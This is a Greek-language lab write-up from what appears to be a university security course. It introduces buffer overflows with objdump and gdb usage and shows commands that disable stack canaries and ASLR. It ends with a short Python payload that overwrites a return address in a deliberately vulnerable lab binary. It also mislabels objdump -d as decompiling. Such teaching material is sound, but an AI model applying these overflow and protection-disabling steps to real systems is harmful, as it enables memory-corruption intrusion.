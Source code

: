 # Εισαγωγή σε Buffer Overflow Attacks

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=c9554f73)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=5ddddcb3)

## Περιεχόμενο

Στις παραπάνω διαλέξεις εξετάσαμε:

1. **Εισαγωγή στην x86 Assembly**: Μια σύντομη επισκόπηση της αρχιτεκτονικής και των βασικών εντολών.
2. **Ανάλυση προγραμμάτων μέσω εργαλείων**:
   - Χρήση του `objdump` για αποσυναρμολόγηση (disassembly) εκτελέσιμων αρχείων.
   - Χρήση του `gdb` για δυναμική ανάλυση και debugging.
3. **Εκμετάλλευση Buffer Overflow**:
   - Πώς μπορούμε να εκμεταλλευτούμε σφάλματα διαχείρισης μνήμης.
   - Επιθέσεις buffer overflow και τρόποι πρόκλησής τους.

Οι παραπάνω τεχνικές αποτελούν θεμελιώδεις αρχές στην ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού.

---

## Εισαγωγή στο objdump και ανάλυση του buf0

Το `objdump` είναι ένα εργαλείο που μας επιτρέπει να αναλύσουμε το περιεχόμενο εκτελέσιμων αρχείων και να δούμε τη δομή τους. Η επιλογή `-d` στο `objdump` σημαίνει decompile και χρησιμοποιείται για την αποσυναρμολόγηση ενός εκτελέσιμου αρχείου.

Όταν χρησιμοποιούμε το `objdump -d buf0`, μπορούμε να βρούμε τη διεύθυνση της συνάρτησης `thank_you`. Ωστόσο, αυτές οι διευθύνσεις είναι relative προς τη βάση του εκτελέσιμου αρχείου και μπορεί να αλλάξουν κατά την εκτέλεση λόγω του ASLR (address space layout randomization).

Για να βρούμε τη σωστή διεύθυνση κατά την εκτέλεση του προγράμματος, πρέπει να χρησιμοποιήσουμε το `gdb`.

### Βήματα για να βρούμε τη σωστή διεύθυνση της συνάρτησης `thank_you`:

1. **Χρήση του `objdump`**:

   ```sh
   objdump -d buf0 | grep thank_you
   ```

   Αυτό θα επιστρέψει τη relative διεύθυνση της συνάρτησης στο εκτελέσιμο.

2. **Χρήση του `gdb` για να βρούμε τη πραγματική διεύθυνση**:

   ```sh
   gdb ./buf0
   break main
   run <όρισμα>
   info address thank_you
   ```

   Αυτή η εντολή θα επιστρέψει την πραγματική διεύθυνση της συνάρτησης στη μνήμη κατά την εκτέλεση του προγράμματος.

---

### Χρήσιμες Εντολές `gdb`

- Προβολή της τιμής στη διεύθυνση που δείχνει ο δείκτης στοίβας:

  ```sh
  x/x $rsp  # Για x86_64, προβολή 4 bytes (word)
  x/gx $rsp  # Για x86_64, προβολή 8 bytes (giant word)
  x/x $esp  # Για x86
  ```

  Η εντολή `x/x $rsp` θα εμφανίσει την τιμή στη διεύθυνση που δείχνει ο δείκτης στοίβας (stack pointer) ως word (4 bytes). Για να δείτε 8 bytes (64 bits), χρησιμοποιήστε την εντολή `x/gx $rsp`.

- Προβολή της τιμής ως string:

  ```sh
  x/s $rsp  # Για x86_64
  x/s $esp  # Για x86
  ```

- Προβολή των 5 πρώτων τιμών του δείκτη στοίβας:

  ```sh
  x/5x $rsp  # Για x86_64 ή x86
  ```

- Αν μία από αυτές τις τιμές είναι δείκτης σε string:

  ```sh
  x/s 0x7ffff7b0  # Αν 0x7ffff7b0 είναι διεύθυνση σε string
  ```

- Προβολή της εντολής που δείχνει ο δείκτης εντολών:

  ```sh
  x/i $rip  # Για x86_64
  x/i $eip  # Για x86
  ```

- Προβολή των επόμενων 5 εντολών από την τοποθεσία του δείκτη εντολών:

  ```sh
  x/5i $rip  # Για x86_64
  x/5i $eip  # Για x86
  ```

- Αποσυναρμολόγηση της συνάρτησης `main`:

  ```sh
  disas main
  ```

- Προβολή των περιοχών μνήμης του προγράμματος:

  ```sh
  info proc mappings
  ```

- Τοποθέτηση σημείου διακοπής σε συγκεκριμένη διεύθυνση:

  ```sh
  break *0xADDRESS
  ```

  Για παράδειγμα, αν θέλετε να τοποθετήσετε ένα σημείο διακοπής στη διεύθυνση `0x5555555551c5` μέσα στη συνάρτηση `thank_you`, χρησιμοποιήστε την εντολή:

  ```sh
  break *0x5555555551c5
  ```

---

## Απενεργοποίηση Μηχανισμών Προστασίας Στοίβας

Για να μπορέσει να τρέξει το παραπάνω exploit, θα χρεαστεί να απενεργοποιήσουμε κάποιους μηχανισμούς προστασίας στοίβας που χρησιμοποιεί το σύστημα μας όπως τα stack canaries και το ASLR.

### Απενεργοποίηση Stack Canaries

Επαναμεταγλώττισε το ευάλωτο πρόγραμμα χωρίς προστασία στοίβας. Αν έχεις τον πηγαίο κώδικα, χρησιμοποίησε την επιλογή `-fno-stack-protector` με το `gcc`:

```sh
gcc -fno-stack-protector -o vulnerable_program source_code.c
```

### Απενεργοποίηση ASLR

Προσωρινή απενεργοποίηση του ASLR:

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Για να επανενεργοποιήσεις το ASLR μετά την ολοκλήρωση, εκτέλεσε:

```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## Δημιουργία του Exploit

Για να δημιουργήσω το exploit, ακολούθησα τα παρακάτω βήματα:

1. **Ανάλυση της Στοίβας με το `gdb`**:

   - Έτρεξα το πρόγραμμα με `gdb` και τοποθέτησα ένα breakpoint μετά το `strcpy` στη συνάρτηση `print`.
   - Χρησιμοποίησα την εντολή `x/16gx $rsp` για να δω τις 16 τελευταίες μεγάλες λέξεις των 64 bytes που έχει αποθηκευμένη η στοίβα.

   ```sh
   gdb ./buf0
   break *print+20  # Breakpoint μετά το strcpy
   run <όρισμα>
   x/16gx $rsp
   ```

2. **Εύρεση του Offset**:

   - Τοποθέτησα επίτηδες την τιμή `0xffffffff` στο buffer για να δω γρήγορα πού αποθηκεύεται.
   - Χρησιμοποίησα την εντολή `disas main` για να βρω τη διεύθυνση της επόμενης εντολής μετά το `call`.
   - Υπολόγισα το offset από την αρχή του buffer μέχρι τη διεύθυνση επιστροφής.

3. **Δημιουργία του Payload**:

   - Δημιούργησα ένα Python script για τη δημιουργία του payload.

   ```python
   import sys
   offset = b"AAAAAAAA" * 9
   buffer = offset + b"\xc9\x51\x55\x55\x55\x55\x00\x00"  # 0x5555555551c9

   sys.stdout.buffer.write(buffer)
   ```

4. **Εκτέλεση του Exploit**:

   - Έτρεξα το πρόγραμμα με το payload.

   ```sh
   python3 exploit.py > payload
   sudo ./buf0 $(cat payload)
   ```

Με αυτά τα βήματα, κατάφερα να εκμεταλλευτώ το buffer overflow και να εκτελέσω τη συνάρτηση `thank_you`, αποκτώντας root πρόσβαση.

---

## Συμπέρασμα

Αν και χρειάστηκε να απενεργοποιήσω μηχανισμούς προστασίας και να εκτελέσω το πρόγραμμα με δικαιώματα root, αυτή η άσκηση ήταν πολύτιμη για την κατανόηση των buffer overflow επιθέσεων. Μέσα από αυτή τη διαδικασία, έμαθα πώς να αναλύω τη μνήμη ενός προγράμματος, να βρίσκω ευπάθειες και να δημιουργώ exploits. Αυτές οι γνώσεις είναι θεμελιώδεις για την ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού. Επιπλέον, η κατανόηση των μηχανισμών προστασίας και πώς να τους παρακάμπτουμε είναι κρίσιμη για την ανάπτυξη πιο ασφαλών συστημάτων στο μέλλον.
